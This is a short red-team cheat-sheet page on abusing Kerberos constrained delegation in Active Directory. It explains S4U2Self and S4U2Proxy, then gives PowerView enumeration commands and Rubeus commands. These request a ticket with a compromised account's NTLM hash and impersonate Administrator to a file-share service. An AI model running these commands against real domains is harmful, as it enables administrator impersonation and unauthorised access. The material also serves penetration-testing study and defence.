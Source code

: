 # Constrained Delegation

## Constrained Delegation

Created to solve the double hop kerberos issue.\
\
Since the Kerberos protocol does not natively support constrained delegation by default,Microsoft released two extensions for this feature: S4U2Self and S4U2Proxy\
\
&#x20;Together, these extensions solve the double-hop issue and limit access to only the desired backend service.\
\
&#x20;Constrained delegation is configured on the computer or user object. It is set through the msdsallowedtodelegateto property by specifying the SPNs the current object is allowed constraineddelegation against.\
\
\- S4U2self = Allows a service to obtain a forwardable TGS to itself on behalf of the user\
\- S4U2proxy = Allows a service to obtain a TGS to a second service on behalf of the user\
\
Contrained Delegation can be used on both **Users and Computers Objects**

![](<../../../../.gitbook/assets/image (312).png>)

### Powerview Enumeration&#x20;

```csharp
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

![](<../../../../.gitbook/assets/image (294).png>)

### Rubeus

#### Request a TGT for the compromised account

```csharp
.\Rubeus.exe asktgt /user:web01 /domain:crook.badcorp.local /rc4:<NTLM Hash> /outfile:t.kirbi
```

#### Inject the ticket&#x20;

```csharp
.\rubeus.exe s4u /user:web01$ /ticket:2.kirbi /impersonateuser:Administrator /msdsspn:"CIFS/HELPDESK" /ptt
```
